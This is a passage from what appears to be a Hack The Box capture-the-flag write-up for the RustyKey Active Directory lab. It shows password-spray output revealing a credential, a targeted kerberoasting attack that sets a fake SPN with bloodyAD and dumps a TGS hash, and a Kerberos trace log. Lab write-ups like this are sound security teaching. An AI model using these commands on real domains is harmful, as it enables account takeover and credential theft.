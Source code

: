 ```sh
[*] Saved TGT in rr.parker.ccache
[*] Valid user => mm.turner
[*] Blocked/Disabled user => gg.anderson
[*] Valid user => dd.ali
[*] Valid user => nn.marcos
[*] Valid user => backupadmin
[*] Stupendous => dd.ali:Password1234!
[*] Saved TGT in dd.ali.ccache

Again this is something where I'm trying to break through dd.ali's account, but it's not actually necessary. I'll leave this here as an example of targeted kerberoasting though.

```sh
KRB5CCNAME=./it-computer3.ccache bloodyAD --host dc.rustykey.htb -d rustykey.htb -k set object dd.ali servicePrincipalName -v http/fakeservice
[+] dd.ali's servicePrincipalName has been updated

 ./targetedKerberoast.py -k --no-pass --dc-host dc.rustykey.htb -d rustykey.htb
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (dd.ali)
$krb5tgs$23$*dd.ali$RUSTYKEY.HTB$rustykey.htb/dd.ali*$9cdf790d716a4e9f058184979a3c94d8$6c84df1ab924b36451c44f19b3fb26cc01a99e<snip>8a651ae5a691ea3f40682a3e517681d2ea3c8da767d7079af07f8e887f33118f175ee9abcb5696da8d1c83ef29b1b47d409f86a146f21b72fc735a5
```

With the password reset, I still couldn't get in. I did learn that KRB5_TRACE exists and gives super helpful information, but I still hadn't set the encryption types in krb5 from before. If you've followed along and copied my initial krb5.conf, you wont' have this problem.

KRB5_TRACE=/dev/stdout KRB5CCNAME=./bb.morgan.ccache KRB5_CONFIG=./krb5.secure.conf kinit bb.morgan
[345378] 1751365804.563526: Getting initial credentials for bb.morgan@RUSTYKEY.HTB
[345378] 1751365804.563528: Sending unauthenticated request
[345378] 1751365804.563529: Sending request (166 bytes) to RUSTYKEY.HTB
[345378] 1751365804.563530: Resolving hostname dc.rustykey.htb
[345378] 1751365804.563531: Sending initial UDP request to dgram 10.129.232.127:88
[345378] 1751365804.563532: Received answer (137 bytes) from dgram 10.129.232.127:88
[345378] 1751365804.563533: Sending DNS URI query for _kerberos.RUSTYKEY.HTB.
[345378] 1751365804.563534: No URI records found
[345378] 1751365804.563535: Sending DNS SRV query for _kerberos-master._udp.RUSTYKEY.HTB.
[345378] 1751365804.563536: Sending DNS SRV query for _kerberos-master._tcp.RUSTYKEY.HTB.
[345378] 1751365804.563537: No SRV records found
[345378] 1751365804.563538: Response was not from primary KDC
[345378] 1751365804.563539: Received error from KDC: -1765328370/KDC has no support for encryption type
[345378] 1751365804.563540: Retrying AS request with primary KDC
[345378] 1751365804.563541: Getting initial credentials for bb.morgan@RUSTYKEY.HTB
[345378] 1751365804.563543: Sending unauthenticated request
[345378] 1751365804.563544: Sending request (166 bytes) to RUSTYKEY.HTB (primary)
[345378] 1751365804.563545: Sending DNS URI query for _kerberos.RUSTYKEY.HTB.
[345378] 1751365804.563546: No URI records found
[345378] 1751365804.563547: Sending DNS SRV query for _kerberos-master._udp.RUSTYKEY.HTB.
[345378] 1751365804.563548: Sending DNS SRV query for _kerberos-master._tcp.RUSTYKEY.HTB.
[345378] 1751365804.563549: No SRV records found
kinit: KDC has no support for encryption type while getting initial credentials
